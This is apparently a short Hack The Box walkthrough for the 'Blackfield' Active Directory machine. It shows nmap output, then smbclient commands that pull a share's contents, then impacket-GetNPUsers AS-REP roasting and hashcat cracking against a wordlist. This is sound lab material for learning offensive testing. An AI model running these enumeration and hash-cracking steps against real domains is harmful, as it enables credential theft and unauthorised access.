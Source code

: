 # Blackfield

## NMAP

``` text
10.129.229.17:53
10.129.229.17:88
10.129.229.17:139
10.129.229.17:135
10.129.229.17:389
10.129.229.17:389
10.129.229.17:445
10.129.229.17:445
10.129.229.17:593
10.129.229.17:3268
10.129.229.17:5985

PORT STATE SERVICE REASON VERSION

53/tcp open domain syn-ack ttl 127 Simple DNS Plus
88/tcp open kerberos-sec syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2024-10-09 16:52:08Z)
135/tcp open msrpc syn-ack ttl 127 Microsoft Windows RPC
139/tcp filtered netbios-ssn no-response
389/tcp open ldap syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: BLACKFIELD.local0., Site: Default-First-Site-Name)
445/tcp open microsoft-ds? syn-ack ttl 127
593/tcp open ncacn_http syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp filtered ldapssl no-response
3268/tcp open ldap syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: BLACKFIELD.local0., Site: Default-First-Site-Name)
3269/tcp filtered globalcatLDAPssl no-response
5985/tcp open http syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp filtered adws no-response
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows
```

## SMB

![smb-shares](/HTB/Machines/images/Blackfield-smb-shares.png)

we can get usernames via profles$ share and use it with ASREP Roasting

``` bash
mask ""
recurse ON
prompt OFF
cd 'path\to\remote\dir'
lcd '~/path/to/download/to/'
mget *
```

```bash
impacket-GetNPUsers BLACKFIELD.local/ -usersfile user.txt -format hashcat -outputfile hashes.asreproast

hashcat -m 18200 --force -a 0 hashes.asreproast /user/share/worldists/rockyou.txt
```

![GetNPUsers](/HTB/Machines/images/Blackfield-GetNPUsers.png)